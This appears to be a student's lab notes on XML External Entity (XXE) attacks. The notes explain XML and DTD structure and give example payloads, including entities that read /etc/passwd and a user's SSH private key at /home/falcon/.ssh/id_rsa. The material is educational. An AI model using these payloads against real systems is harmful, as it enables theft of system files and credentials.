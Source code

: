 # XML External Entity (XXE)

Note:
- XXE vulnerabilities attack is a vulnerability that allows attackers abuse/interfere an application's proccessing of XML data, a bit  similar to SQL injection.
- There are two types XXE attacks, in-band and out-band XXE.
- In-band XXE means attacker can receive immediate response to the XXE payload
- Out-band/blind XXE means attacker need to reflect it somewhere such as their own web/live server in order to see the response of XXE payload.


## eXtensible Markup Language (XML)

XML is a markup language that commonly used to transfer data between browser and server like json.

XML has a set of rule for encoding documents in a format that is both readable by human and machine.

### Why XML?
- Independent from programming language and platform
- XML document allows validation using DTD and Schema, free from syntax error.

### Structure of XML:

XML Prolog - Not compulsory but good practice
```
<?xml version="1.0" encoding="UTF-8"?>
```
Every XML document must contain a `ROOT` element. For example:

```
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```

`<mail>` is root element
`<to>`,`<from>`,`<subject>`,`<text>` are children of `<mail>`

Without root element, XML document would be considered as invalid XML. 

XML tags are case sensitive. It can also use attributes.

```
<text category="message"> attributes added </text>
```

## Document Type Definition (DTD)

A DTD defines the stucture and attributes of an XML document.

Example DTD:
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Example note that uses DTD for validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

## XXE Payload


Example payloads:

1) Define entity called name, assign with feast. Use it on `<lastName>`
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
2) Read file from system, `/etc/passwd`
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Practice

Payload 1
![2261fcc309d3f09b8b65e0dd99209572.png](./_resources/870c15daeee1430baebee8495b4d87ef.png)

Payload 2
![80a057c4fcc8c58b886c5ea6d70fbe00.png](./_resources/3f7df21b8f2d445db7f9a9948a417236.png)


> 1000 in /etc/passwd means a user account. So, ssh key should be located on /home/username/.ssh/id_rsa

Payload 2: Read SSH key

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

![c2cd7114f3cae63840211ecf2f92a5d6.png](./_resources/e97fedec4521426595e39e245f2936bb.png)


## Question

### XML
![8ce58954700802ca5f8dd2efcd3f45d0.png](./_resources/45e03beafc3347fca6b5a8d64921ca15.png)

### DTD
![d8501f7b3b80080785d93b1c5af8fbed.png](./_resources/51edff5108434f6da4d827314b242a5d.png)

### Exploiting

![3e2bfa1f441861816e8d9177eec73157.png](./_resources/cd0ed8bbb655487c8bf97bb5942c2569.png)